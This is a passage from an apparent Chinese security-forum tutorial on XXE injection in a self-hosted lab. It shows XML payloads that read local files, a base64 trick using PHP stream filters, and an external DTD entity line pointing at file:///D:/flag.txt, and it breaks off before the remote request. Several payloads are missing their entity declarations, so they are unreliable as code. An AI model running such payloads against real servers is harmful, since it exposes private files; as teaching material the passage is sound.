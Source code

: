 ```TEXT
<root><name>123</name></root>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3e33ba4a8cc256ae7cae47f1060a63b600c1f42d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-3e33ba4a8cc256ae7cae47f1060a63b600c1f42d.png)  
正常回显。

**本地引入**  
我们利用外部实体引入来读取文件。

```TEXT
<?XML version="1.0"?>

]>
<root>
<name>&file;</name>
</root>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6da84524bc610b64aa642f84e8882ecf4a3a9de9.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-6da84524bc610b64aa642f84e8882ecf4a3a9de9.png)  
读取成功。  
如果单纯的读取明文，当文件出现`<>`这种特殊字符就影响解析。  
那么可以利用php伪协议强大的过滤器对读取结果进行b ase64编码。

```TEXT
<?XML version="1.0"?>

]>
<root>
<name>&file;</name>
</root>
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4e670b8135b1ad9d40b14337bded2fde9fc11072.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-4e670b8135b1ad9d40b14337bded2fde9fc11072.png)  
附带一张不同环境下分别支持的协议总结列表  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8668bdb935c5e73202c86259e8abd7d3f0e92b5d.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-8668bdb935c5e73202c86259e8abd7d3f0e92b5d.png)

**远程引入**  
首先新建一个DTD  
[![](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ec1acdd68384c63f388699fa8ceb2a9eb8c007ea.png)](https://shs3.b.qianxin.com/attack_forum/2021/08/attach-ec1acdd68384c63f388699fa8ceb2a9eb8c007ea.png)

```TEXT
<!ENTITY file SYSTEM "file:///D:/flag.txt">
```

一般是放在服务器上给目标主机访问，因为是自己的靶场所以我这里放在站点根目录。  
然后构造数据包：
